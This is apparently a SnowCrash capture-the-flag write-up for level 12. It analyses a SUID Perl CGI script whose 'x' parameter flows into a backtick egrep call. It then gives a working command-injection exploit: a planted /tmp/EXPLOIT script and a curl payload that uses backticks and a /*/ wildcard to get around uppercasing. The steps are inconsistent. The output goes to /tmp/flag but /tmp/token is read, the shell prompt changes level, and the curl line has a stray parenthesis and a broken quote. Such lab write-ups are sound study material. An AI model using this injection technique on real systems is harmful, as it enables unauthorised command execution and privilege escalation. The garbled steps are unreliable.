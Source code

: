 # Level 12

### Goal
Exploit a Perl CGI script vulnerability to execute arbitrary commands and retrieve the flag.

### I - Initial Analysis
In the home directory, there's a Perl script `level12.pl` (like in **level04**) with SUID/GUID bits set, meaning it runs with **flag12**'s permissions regardless of who executes it.

1. **File Examination:**  
   ```bash
   level12@SnowCrash:~$ ls -l
   total 4
   -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
   ```

2. **Script Content:**  
   ```perl
   #!/usr/bin/env perl
   # localhost:4646
   use CGI qw{param};
   print "Content-type: text/html\n\n";

   sub t {
   $nn = $_[1];
   $xx = $_[0];
   $xx =~ tr/a-z/A-Z/;
   $xx =~ s/\s.*//;
   @output = `egrep "^$xx" /tmp/xd 2>&1`;
   foreach $line (@output) {
         ($f, $s) = split(/:/, $line);
         if($s =~ $nn) {
            return 1;
         }
   }
   return 0;
   }

   sub n {
   if($_[0] == 1) {
         print("..");
   } else {
         print(".");
   }
   }

   n(t(param("x"), param("y")));
   ```
   - It is a `Perl` source file, commonly used for tasks like text manipulation, system automation, or web development.  
   - This script functions as a `CGI` script, handling HTTP requests and dynamically generating web responses.

### II - Source Code Analysis
The Perl script presents several security vulnerabilities:

1. **Pattern Matching Weakness**
   ```perl
   $xx =~ tr/a-z/A-Z/;    # Converts input to uppercase
   $xx =~ s/\s.*//;       # Removes everything after first whitespace
   @output = `egrep "^$xx" /tmp/xd 2>&1`;  # Uses input in command execution
   ```

2. **Input Validation Issues**
   - The script converts input to uppercase using `tr/a-z/A-Z/`
   - It removes content after whitespace using `s/\s.*//`
   - However, special characters and path traversal sequences remain unfiltered

### III - Vulnerability Details
The main vulnerability lies in how the script handles the `x` parameter in CGI requests:

1. User input is used directly in a command execution context (`egrep`).
2. While the script converts input to uppercase, this can be bypassed using special characters.
3. Path traversal is possible using `/*/` which remains unaffected by the uppercase conversion.
4. Command substitution using backticks (**``**) is not properly sanitized.

### IV -  Exploitation Method
The exploit works in 3 steps:

1. First, create and prepare the exploit file:
   ```bash
   echo 'getflag > /tmp/flag' > /tmp/EXPLOIT
   chmod +x /tmp/EXPLOIT
   ```

2. Then trigger the exploit:
   ```bash
   curl 'http://localhost:4646/?x="\`/*/EXPLOIT)\`"
   ```
3. Verify the result:
   ```bash
   level11@SnowCrash:~$ cat /tmp/token
   Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
   ```
   The `payload` succeeds because:
   - `/*/` bypasses the uppercase conversion.
   - The backticks (**``**) command substitution is executed by the shell.
   - The wildcard `*` allows finding our `EXPLOIT` file regardless of path case sensitivity.


